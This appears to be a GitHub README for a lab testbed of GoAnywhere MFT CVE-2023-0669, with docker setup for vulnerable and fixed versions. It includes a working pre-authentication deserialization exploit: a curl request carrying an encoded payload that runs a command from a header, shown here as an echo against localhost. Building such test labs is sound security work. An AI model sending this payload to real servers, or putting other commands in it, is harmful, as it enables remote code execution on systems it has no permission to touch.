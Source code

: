 # GoAnywhere MFT CVE-2023-0669

## Description of Vulnerability

GoAnywhere MFT RCE vulnerability CVE-2023-0669.

GoAnywhere MFT suffers from a pre-authentication command injection vulnerability in the License Response Servlet due to
deserializing an arbitrary attacker-controlled object.

All versions prior to 7.1.1 are affected. Update GoAnywhere MFT to a fixed version, i.e. 7.1.2 or later

## Launch Testbed

### Vulnerable setup

1. Pull the image

```sh
docker pull kutzhanov/goanywhere:6.8.6
```

2. Start the container

```sh
docker run --rm --publish 38000:8000 kutzhanov/goanywhere:6.8.6
```

2. The instance will be available on [http://localhost:38000](http://localhost:38000)
3. Install goanywhere mft, fill license code[www.goanywhere.com/trial](www.goanywhere.com/trial) and create the
   administrator account



### Non-vulnerable setup

Repeat the process with a fixed version:

```sh
docker pull helpsystems/goanywhere-mft:7.1.3
docker run --rm --publish 38000:8000 helpsystems/goanywhere-mft:7.1.3





## Vulnerability Test

You can use the following command to check whether the instance is vulnerable or not

```
curl -s -H 'x-protect: echo goanywhere_vulnerability' --data-binary 'bundle=Jh88_jqGQWSbZmiCc1DErQhwOhCTLkYmA1yXgf86Ha5HF9IfVuQMLOfBS_fjlP7wTTEg2-Jx9nBDyFUKVTroXpFBt7zN1XDX58VKZCxCXlUD45d4laUUnNuzdyvNLT2b_gYKBi2-ny7fc2lOHNgalYV13mQzCTs0EgEUE9AuDUIMcFYx00pv4g4EOgEjeWbAx40rTtRby71AxapyXKy-4XChDHVlPB1AV3njBKGWT6gHdPxT8hb75Ycrpjdk9EQ1HW4WJiz4uaVBu7hXm_Eag15IpIWgojFy4hst8-q9YMms8Omq5lbdLabUHRcJAd6rLu6QrPLepYXQgGfMi_Qmj0qf5vXLfSX20cSBT_IEBlzzBR3lq_hiqrAfmZZCV3Y1HeMPpaMsmzL5zM1VTMX-5Pi5JGKMJ2Al2BZVZUUZQNqrcnueMVl1ZNhGMJ8eSFBCb4WGaNrhfgQ3sWUW3_A_ln_XwLi8z6XCOT5sJmFYZXBC4vYtY4leatX_o__lJHYPuA_TEmuEmEhIccj5Ou2xOvazmw9oXVUbM0vkPsb1UDyyTF0Ee85W0CUUCzb3rouvUDFaOZZLe08Z_Km2LgSq9Wr3fKojx_UevkOkOfwfiPlnJcQTRr45useRtOlHrJpP1iWSLi2vwK8bojMdCWzF13H8MmDjrJBCbcbChsXQkNcAJqkYa3y2SZXkwISRigFVLRnjDbyQLqLAzE0inCSf7NF9abKU5ZW8yMgF6NT802MJCz0gRJD6zLbFZSBYfGlzFJmu9-ZWYVywkwmu3xQrrA_tCRdqvd5zeHd3CgWOzBjOg55_iBNcPZOPYhMXD1ZEpPyG0CQpJfIUiblo4gGV0op-Mb2z5HIuvJ-l_YCxoYJi5RCdtgGoSmIo9wN59S0PeI6LI69EsoquDh7EA9Z7pc6XGk6rrbsJoFcV-lp_73dwmOH1U6pZRcEeMYgrB3n_R0BsoYHTika_iGEmmYv1CgBDfMlmVdQbtefAwh_AcJ9pyNACTwWdXQ0xmto3YYLbizDnmZ--NeiQ_534fTrGfjcIsbLgEnHcpG7Fwng72m7pHVy5LpurnRJXJyFBJW9IUF0vwH_UDZtAfeBK4kMbkuJrCTtQdyCks5SjfQWTArKeNGiKbGWReNhOnUnK8A2sxiYtvqlUi01mfOIfoc-9Lp6wXEBrNzWHH0zPWu4SNQmhR-JwmvFeIErraf83vz0_sRoU7IcSqKEF5zFjFF8n1oWqwBP5a3s_fKgbQ_UA74vmFh5cc_tlpBXS1oG8_EU5GAFI-woAA0Mlgkwmo-fGH1w1wB1LSOzgiT7r4QKDko55Timnwpk_D4RmXesvtu49-xyXcg4sL6NG5ujC6o5kKbTrwi7Vp8hjEx1v6nXeMfUbuWjYicH-ZIE_P_SMevvDUOQm3UZ67MbmdkReIR32TN_88A4J5dKN0QC08HLkYNSjsRp7XyXbSi5dZp3eQ6zkW9KuYU-S-NSBC9pV4arvsZXcwtWRTjweK49JIIgLMayI4y9TOjhg-LiwwzIlTY_t0KuzHSIYSw82LxmOeDhdQUC-sSOeV1G2sR095x3NDmfEfdvduTceU9cD3ofEFtedX5Z77aGFoVhdoG_hOjnYnaoaWYPe7JChYE0TZZfu3V7HF57X0cwoYYPDP6XzSf6kmxEWDoenYsPTmY_Evhqwp3Fhzko8_G-UR2tNH9JjIoouCEd8o8Gy7gnye2_u6wzCBuChv1yEug0miW8nSCQk69oHWeti94h1toBecBt70m8ySDHgL80vs4n5qHK2Mjv_eb3a5UrajOObvfoNMg_K85EudKBrdgW6bEV5KsZhFBDpDnxA7X8CHEHZiK4iDCFUCmSMCXQz7KqkHrcWh8l1ut7IPoxuiRhdI5wuNSw-xVmVwM1kJo5ahlOZcsARCNZ9NcAjcqojMDZjgkPo7lt-5Lrl2gPHg80YkNsfdB8Ao91vcZ6UuJ45ERB1G8V7TwxCMsHU8h8FFet1zb55rcBE-YJ5rvzaXif3OOFiS4MnA0LDszZkFJ4gW2SIMban79bz38yBnEz-au5l2SwkG7tY3DiKobiIz6ZJjOzVj2jAT7MsCpB8XNl8tCMYJHWErFrExXbosh-YvXoU8HCN_XALqBSZJyffqKu0iAYcyxc35QQl55ll-IybJU3Gu4LPGT6HXPlK3Hepmdd1ZhLzQG-adp465TzIDX-0YUK_Px-J0gmoW-kgUiGAVKrHIS4Qh-1E80u7GI_WUZTXSE7sgKUX-2qEUj6reo7Kf_4c_CZrwkA4RtoQrQMCs4Bs7dAft1eAqb9O-SDcW8kShwpUow3nz6PFKkdZ4SjYTNUjANTJT_7Yvzu-nHDPpEyriuZ4zcGKTadRgL2bbv1MwcTzJ1iCGMGXNk-sMiqOpqGdW_tAbfrGAuAjSiK5vCK4tO2xjR9qlMu9mzvC6FWXMlgoDFWbrXDSLUWWpgthJssAzniuX1iuGBlWmC7MzOCLQYyHKTIGDysqW4BgHQabqeXtqPoCLUCcCY8tlaACSFFe9ZQcQXgTHwClL5_TI2-9Cn5wIz28o-krld22hZ5KUWvXcW_278n6TxUJZPArM-KweuxdkzFYHjg1i8eZygMFz17MA9rUSTJzG7qvyXR_OIvI9EcGVP91noBQ2pN9zqFq7o81DRUmrNbNL1I4GPwK4kkLJVOJ1o6Hgw-zXmjeMveQII-aRzh-O2zZ9dpBJ8Yne7nWgeq1XAxW3A0lkqKr5hRbJD8najEI1xWvUEBHbPLD3oy4FGrs2Pegj7JlsGIwcmsQ8S_3bcp9ycdpNWXR0qgku3ltIZdFfW3Tnm-NFbfvkIRqmk8CaYsX2NlXGCJBLSt5HHioXDyUn1dRKvTpLx8aw41HqqGAACACvSWo0VLi4uXvxUZTgeA7q6BzH7KxptrTX62rBrU6R2ul5cgjTEYnakqcNUyJDjbxHBw1wY3k75erwfFj_pc6pE0PlB9zqIROk0yOiy2OWpg4KCAjryY1U0eOjnZVsoWjEuBT7Uvu0_9h04yZqToxRfu0WIODBLGJZ0lpx2bXtcaZPRFNwOFAeGHNpSY-ZO48bQR2Eo8kbB62w5DU6pKlFzCzK-bOzVvYUYDkYoQUSclOkW96M0hQ5DvJggB14AuXv0n4jsC1j_z4Yg1oeVnSbDA1PuGcAq8TovQX1KzpSHORoQFEhcclGxhc5-6kPt_cqImHd2C2UpYhVGEff3d2ShRzOETbELCR9w5OLY5EB4AxIOB9K4UUB-iqusjEmTYogjUUPhrHz1Dl88DD-W_QIR1fSpKDlCKWZXLWueZKXEFTKTIrWltCqbANJMPx5ww4Yo7jau6jZOPZWaZg_rApAJ4GhISBNRNUaRMUwRuKHrIaXBamJfkZXZNBJaUyv5uFXkCqkKlotr3JpOe8kBeFq_h-mmgM5G2pCK1LvnpIzXqMe1vPuR7om0ar4hRpV8aBlmhG9M7N2NQS50c-d96qKQQNDT_RgKslJfEPl4LuBie9IFlZ9qbpyq25XadMoDvDjuddAGb2jouTI8t1wXoK_fGMzUlPa7_Fq1yJqaeLF4gvoqZcEdocc0BZuM_8YqQGPhPRtxJ2wfnJ-9rdz58RNX8KoUnPEo7Y_GU5MqcmIsIqWgLkLHbFTytO9Xf2v90LKZoJy6vxfuD0C3ocGZ4syFrus4zZ0ydMU8L0b5A4Z9c4U7LE4kn79ujOBeseZDE1nAr2RL1c9ReAjJ6CLqpPYTihhLHglog64HMcxTGj1_fEnrNB53mzD0cw1UB5_kRE-Yr_JY0PRvYYGVfKfaXeklUVn3Rb-npVABFVQ6XrCN1dUFOhy4rUe3mZ3kyAXvjpXiRrkRnbKAk1c2ynLrIDetbNoQQGdIouuBEDX9NJIE9zKAttSQBpC5Xkoeu68oQcTU3IW_N848fuGIUsUl4oqO1wjNuG4TTBCCA82gu269_LCg5jB9JEa-DlhPzRwoGhJ4muc1ThgsINoLcevNu5iwP-ebUQfolW6ZdR3i12Eh9bZi3yiE7Sieb-dXx_qm5IrdlY0SZWKNC8OqlxVUzLaseMBE3kPrT-Dz6ClJXewCEU1vGYzPvKggCgg5clwEwsjGsOq7XYLGRJ9f5pMKZkcfO6-v4FpCk3fjHh0NDDZ8EE3i74a5fh1wVKsR2EJPpl6bEpWhMUDPtcavuTP7xbJC1sFDuLzoSE6qVXLbZFWPS6VMCEzkJ1-FxVsVE_WE4v72iygfLGZaOFgzyVOSEZAm8GThgHsxrKTb2_v5JcWLuock1Z6uva8P13htuNHACPZ3yhkXbuJ2b-6ucy2ZLurigtEDsNsmXsybmWdpS4vA6gnPDr5iSxVXz4BLyW0ShEbKLls_eJ_pH-y1b9Hw0KVVbcE05-bckumz7H-LwhcGVBsi2SKpoGSugH6gbX_fqrraMB0aC-0v6JIZ8WUNa7ElaMfJsE6XstjaE7KjXFHuhyQKeHgWKjm1oV8yLW7vRuqhs5RfWV3E09y2yASv_DY1WxMotFAqOHhz-zt3CiZCXQkPsjly3uHDKLrIjMYrHFvPPmQ8jD6AWiupBSVUi9yFnSFeZq8Ws3-Ki8JQEuWtMhCOsF5nBIb9NUifxO6sK2hUlbBVnhGV1PAz1FZ0tMHhFg7AVeviqUlePVASRtUQ-HmW9qPqH1UXiwysQAprepW6tHuExtYchRcla7ApOqUcQl1oCdQl6tsvn3ewlMTHvAyhUMjeap3yHlzUro-kFf-D285ircmCHRvoXgySqqZjO_8hkEcgBEWSp5Yn8xNZmw9PEthJzvAL2F6UfY58G_WrSIj5B-6GgHdgDVSzLiYSh_lrMFEd4QBtVYLz9KWlY5jjXxmN50RjWGhf2qx0iGrFC2ZnAwN6RxrB07Gl-nI2rAYVWoa_oIz_3s2rI7ll6fvzmdwKrSPNdcnG3MYVvTo8gAHrvhgFUje71_EgabRgOQv6XFCX6Vhsh9crycXjtISPU8ZWnf9tSQh-nUBplB2Go2WSmmLk1Rhu0deMsChn6dI7OQ-ed-36C_on1CY5bSuEkpJxxsNrcZTdmRG3KPlwHVcZ1kfFKlSTnFPjoOq1VLgLGuaOJFFiTerU2tbfj8rbgZbYOeZZToik7OirRjX_oTyKwHGQq5Y0d_W1Whwr8i5xK-V4HsdDOAOPv7NzL8-yxnL73kWP2357B_8yvUxHKjZ_ynyr--_ueBVZbOwnt4oBpbtsLh7_A6vo0MdBs2HpRRq8USpxlgN_s_2DNFRrxejgphOPDeHT-_mh7ey3lSZNMt3NU2M7lPWzWsffu5R5PXY9BxJT0PsUAgJS3i-sB5D4Fg7e4WiF83UroEYaz9mM0B-7VQ7hkqBgPEiDH2rZpUyhsG51TlYSbzb46g41vXdFpygqntOlEgBYkVbLwN3fIM9s2RL4908QD8o-ePuO-CnFL5KU5Yh7IcBx8a2FovJf07J7IoShuB2grZ7Uq8hwa5OJjZ0yN1pz1KsdT_OKONiiDiWvf67QRkrogsxA2PbFC4Qhr1ZwOnEO8fhZTFx_fdt5_z7RkjfObiDBNqGGY5iBnjxinzh67mODT_vohU7L3gPCkVnqcU2zUbiBsT-Xu0HGyQOPpBp5wS2QHln6GdmTkmARnSa4Mc1CU0x4YzmAoTU4v8xLCtucHHFHrYMB_MFJg_2rM_XxJVKjnU2ej7BFSbnyc_1XE12z9ca6dYywmwtTFtHSpJf-70SBU_nebcnTcUXMp2JTWdRUgGScybrwM4wGSYUq7THJqm297dQ9fJ9GjnWLOK3JQ7K2GjVWWmXKrlYlwKgx_3XDUUYErlZAw13_iQXLMZOUteWthVndxp9STpcQ' http://127.0.0.1:38000/goanywhere/lic/accept
```


A vulnerable instance will reply with the following message:

```
goanywhere_vulnerability
```



while a safe instance will reply with status code 400 and the following body:

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE html>
<html xmlns="http://www.w3.org/1999/xhtml" lang="en"><head id="j_id_4"><link type="text/css" rel="stylesheet" href="/goanywhere/javax.faces.resource/theme.css.xhtml?ln=primefaces-aristo" />
......
```
